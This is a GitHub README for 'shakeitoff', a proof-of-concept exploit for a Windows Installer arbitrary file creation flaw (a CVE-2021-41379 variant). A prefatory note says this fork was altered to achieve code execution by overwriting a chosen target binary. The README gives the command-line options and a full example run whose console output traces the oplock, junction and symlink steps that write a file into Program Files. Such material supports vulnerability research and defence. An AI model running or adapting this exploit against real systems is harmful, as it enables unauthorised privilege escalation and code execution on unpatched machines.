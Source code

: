# NOTE:

This version of shakeitoff has been altered and combined with parts of the original InstallerFileTakeOver (linked below in the original README by the author of shakeitoff) in order to acheive code execution after overwriting the target binary.  Additionally a switch was added to allow the user to specify what file they wish to overwrite the target file with (as opposed to the original POC's which overwrote the target file with the POC).

# shakeitoff

A smaller, minimized, and cleaner version of [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver) aka the zero-day exploit that is a "variation" of CVE-2021-41379. This version *does not* pop a shell like `InstallerFileTakeOver`. The point of this code was to create a simpler proof of concept that more reliably demonstrates the file creation attack. This proof of concept will create the arbitrary file requested by the user (and copy itself into it to prove writablity). Demonstrating code execution is a trivial excercise left up to the reader.

To understand how the attack works, please see the [AttackerKB write up](https://attackerkb.com/topics/7LstI2clmF/cve-2021-41379/rapid7-analysis).

## Usage

The tool requires three parameters:

```
C:\Users\albinolobster\source\repos\shakeitoff\x64\Release>.\shakeitoff.exe
option "msi_path" is required
Allowed options:
  -h, --help              produce help message
  -m, --msi_path arg      The path to the MSI to install
  -i, --install_path arg  The path to install to
  -p, --target_path arg   The file to create
```

1. -m - the msi to install (full path required). One is provided in this repository (and you should use it since the file paths actually matter).
2. -i - the install path (full path required). This is where the msi is installed / the exploit goes down. The user must specify this beforehand and it *must* be an empty directory. The tool doesn't clean it up because it makes figuring out the bug easier. There also must be a trailing \ because I'm a monster.
3. -p - the file to overwrite/create. Full path required.


The PoC will just copy itself into the target file. 


## Usage Example

```
C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

File Not Found

C:\Users\Public>.\shakeitoff.exe -m C:\Users\Public\shakeitoff.msi -i C:\Users\Public\lol\ -p "C:\Program Files\lol"
[+] User provided MSI path: C:\Users\Public\shakeitoff.msi
[+] The target path is: C:\Program Files\lol
[+] Create the temp directory structure we'll install into
[+] Grabbing handle to lock C:\Users\Public\lol\shakeitoff\haters.jpg
[+] Grabbing a directory handle of C:\Users\Public\lol\shakeitoff\
[+] Monitor shakeitoff\shakeitoff for an rbf file
[+] MSI install: ACTION=ADMIN REBOOT=ReallySuppress TARGETDIR=C:\Users\Public\lol\ C:\Users\Public\shakeitoff.msi
[+] Grabbing a handle to inner shakeitoff directory
[+] In callback for oplock one
[+] Opening handle to C:\Users\Public\lol\shakeitoff\8da858.rbf
[+] Creating the callback directory at C:\Users\Public\lol\cb_directory
[+] Grab a handle for the callback directry
[+] Creating a junction from C:\Users\Public\lol\cb_directory to \BaseNamedObjects\Restricted
[+] Inside callback two
[+] Release the hater.jpg handle to unlock
[+] Move the rbf file to C:\Users\Public\lol\weird_directory
[+] Move inner shakeitoff to C:\Users\Public\lol\weird_directory
[+] Move junction at C:\Users\Public\lol\cb_directory to C:\Users\Public\lol\shakeitoff
[+] Configuring symlink from \BaseNamedObjects\Restricted\8da858.rbf to \??\C:\Program Files\lol
[+] symlink created!
[+] MsiInstallProductA return value: 1603
[+] Exploit thread joined
[+] Copy into target!

C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

12/02/2021  02:01 PM           368,640 lol
               1 File(s)        368,640 bytes
               0 Dir(s)  86,015,610,880 bytes free
```

## Credit

* This code is influenced by the original [exploit](https://github.com/klinix5/InstallerFileTakeOver) published by Abdelhamid Naceri (also the original vulnerability discoverer!).
* The `FileOpLock` code is a (slight modified) version pulled out of [angrypolarbearbug2](https://github.com/jackusm/polarbearrepo/tree/f37184a3fc3ffa5ea76035c9fbdee95a39d7b4c3/angrypolarbearbug2)
* Taylor Swift
